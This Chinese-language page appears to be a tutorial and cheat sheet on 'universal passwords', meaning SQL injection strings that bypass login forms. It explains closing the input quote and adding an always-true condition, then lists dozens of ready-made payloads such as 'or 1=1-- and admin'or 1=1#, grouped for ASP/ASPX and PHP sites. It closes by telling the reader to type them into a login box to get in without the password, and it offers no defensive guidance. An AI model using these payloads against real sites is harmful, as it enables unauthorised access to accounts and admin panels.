 

## 万能密码原理

闭合
构造为真的条件
在后台登陆页面没有对用户输入的内容进行验证，此时程序所用用户输入的数据都合法的，所以这个时候无论是合法的管理员还是非法的入侵者所输入的数据都是被信任的

## []()万能密码常用函数

```
'
or    或者 ||

账号处：
"or 1=1--
admin'or 1=1#
```

## []()万能密码语句

### []()asp aspx万能密码

```
admin'or 1=1#
1："or "a"="a  
2：'.).or.('.a.'='.a  
3：or 1=1--  
4：'or 1=1--  
5：a'or' 1=1--  
6："or 1=1--  
7：'or.'a.'='a  
8："or"="a'='a  
9：'or''='  
10：'or'='or'
```

### []()PHP万能密码

```
admin'/\*  
密码\*/'

'or 1=1/\*

"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--

&mo#
```

## []()万能密码的利用

在登陆框当中，先把前面的符号闭合，然后输入自己创建的构造为真的条件，即可不需要正确密码就可以登陆


